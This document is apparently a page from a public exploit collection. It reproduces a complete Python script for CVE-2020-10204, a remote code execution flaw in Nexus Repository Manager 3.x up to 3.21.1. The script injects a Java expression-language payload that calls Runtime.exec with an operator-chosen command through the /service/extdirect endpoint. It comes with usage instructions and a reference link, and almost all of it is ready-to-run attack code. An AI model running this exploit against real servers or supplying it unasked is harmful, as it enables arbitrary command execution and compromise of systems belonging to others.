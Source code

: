    import sys
    import requests

    if len(sys.argv)!=4:
        print('+---------------------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                                    +')
        print('+      CVE-2020-10204 Nexus Repository Manager 3 Remote Code Execution                                    +')
        print('+---------------------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <url> <session> <cmd>                                                           +')
        print('+ EXP: python3 cve-2020-11444_exp.py http://ip:8081 6c012a5e-88d9-4f96-a05f-3790294dc49a "touch /tmp/233" +')
        print('+ VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                                                   +')
        print('+---------------------------------------------------------------------------------------------------------+')
        sys.exit(0)

    url = sys.argv[1]
    vuln_url = url + "/service/extdirect"
    session = sys.argv[2]
    cmd = sys.argv[3]

    headers = {
        'accept': "application/json",
        'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36",
        'NX-ANTI-CSRF-TOKEN': "0.856555763510765",
        'Content-Type': "application/json",
        'Cookie': "jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID="+session+""
    }
    data = """
    {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('%s')}"],"roles":[]}],"type":"rpc","tid":89}
    """ % cmd

    r = requests.post(url=vuln_url, headers=headers, data=data, timeout=20)
    if r.status_code == 200:
        if "UNIXProcess" in r.text:
            print ("[+] Command Executed Successfully (Not Echo)")
        else:
            print ("[-] Command Execution Failed")
    else:
        print ("[-] Target Not CVE-2020-10204 Vuln Good Luck")

参考链接
--------

> https://xz.aliyun.com/t/7559
